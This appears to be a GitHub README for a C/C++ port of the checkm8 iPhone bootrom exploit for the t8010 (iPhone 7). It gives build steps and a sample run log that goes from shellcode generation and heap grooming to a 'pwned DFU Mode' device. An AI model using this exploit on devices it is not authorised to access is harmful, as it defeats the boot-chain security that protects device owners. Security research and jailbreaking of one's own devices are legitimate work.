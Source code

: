 # King

Port of axi0mX's check-m8 exploit (<https://github.com/axi0mX/ipwndfu>) to C/C++

It works fine on Ubuntu 19.10 and compiles on Windows.

So far I only ported the t8010(iBoot-2696.0.0.1.33) exploit which is working fine on my iPhone 7


# Compilation

```bash
cd King
mkdir build
cmake ..
make
cp -R ../bin .
```

# Run check-m8 exploit
```
sudo ./king
[*] Shellcode generated ...
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 1, heap grooming ...
[*] stage 2, usb setup, send 0x800 of 'A', sends no data
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 3, exploit
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[!] Device is now in pwned DFU Mode! :D
```

# Limitations

I only ported the t8010 exploit and so far it fails on Windows (WIP!)
